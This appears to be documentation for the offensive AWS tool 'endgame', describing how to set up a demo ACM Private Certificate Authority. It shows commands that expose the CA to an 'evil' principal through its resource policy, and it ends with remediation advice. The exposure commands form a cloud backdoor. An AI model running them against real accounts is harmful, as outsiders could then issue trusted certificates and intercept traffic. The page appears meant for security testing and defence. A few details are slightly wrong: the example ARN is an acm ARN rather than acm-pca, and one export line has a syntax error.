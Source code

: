 # ACM Private Certificate Authority (PCA)

## Steps to Reproduce

First, set up the demo resources. Then you can follow the exposure steps.

### Setting up the demo resources

* Run the Terraform code to generate the example AWS resources.

```bash
make terraform-demo
```

The ACM Private Certificate Authority will have been created - but you won't be able to use it yet. Per [the Terraform docs on [aws_acmpca_certificate_authority](https://registry.terraform.io/providers/hashicorp/aws/latest/docs/resources/acmpca_certificate_authority), "Creating this resource will leave the certificate authority in a `PENDING_CERTIFICATE status`, which means it cannot yet issue certificates."

* To solve this, navigate to the AWS Console in the selected region. Observe how the certificate authority is in the `PENDING_CERTIFICATE` status, as shown in the image below.

> ![ACM PCA Pending Status](../images/acm-pca-action-required.png)

* Select "Install a CA Certificate to activate your CA", as shown in the image above, marked by the **red box**.

* A wizard will pop up. Use the default settings and hit **"Next"**, then **"Confirm and Install"**.

* Observe that your root CA certificate was installed successfully, and that the STATUS of the CA is ACTIVE and able to issue private certificates.

.. and now you are ready to pwn that root certificate with this tool 😈

### Exposure Steps

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil
export CERTIFICATE_ID=12345678-1234-1234-1234-123456789012

endgame expose --service acm-pca --name $CERTIFICATE_ID
```

* To view the contents of the ACM PCA resource policy, run the following:

```bash
export AWS_REGION=us-east-1
export VICTIM_ACCOUNT_ID=111122223333
export CERTIFICATE_ID=12345678-1234-1234-1234-123456789012
export CERTIFICATE_ARN = arn:aws:acm-pca:$AWS_REGION:$VICTIM_ACCOUNT_ID:certificate-authority/$CERTIFICATE_ID

aws acm-pca list-permissions --certificate-authority-arn $CERTIFICATE_ARN
```

* Observe that the contents of the exposed resource Policy match the example shown below.

## Example

```bash
{
  "Permissions": [
    {
      "Actions": {
        "IssueCertificate",
        "GetCertificate",
        "ListPermissions"
      },
      "CertificateAuthorityArn": "arn:aws:acm:us-east-1:111122223333:certificate/12345678-1234-1234-1234-123456789012",
      "CreatedAt": 1.516130652887E9,
      "Principal": "acm.amazonaws.com",
      "SourceAccount": "111122223333"
    }
  ]
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that AWS PCA Certificates are only shared with trusted accounts, and that the trusted accounts truly need access to the Certificates.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposing usage of your private CAs**: Tightly control access to the following IAM actions:
  - [acm-pca:GetPolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_GetPolicy.html): _Description_
  - [acm-pca:PutPolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_PutPolicy.html): _Description_
  - [acm-pca:DeletePolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_DeletePolicy.html): _Description_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Resources

* [Attaching a Resource-based Policy for Cross Account Access in ACM PCA](https://docs.aws.amazon.com/acm-pca/latest/userguide/pca-rbp.html)
* [GetPolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_GetPolicy.html)
* [PutPolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_PutPolicy.html)
* [DeletePolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_DeletePolicy.html)


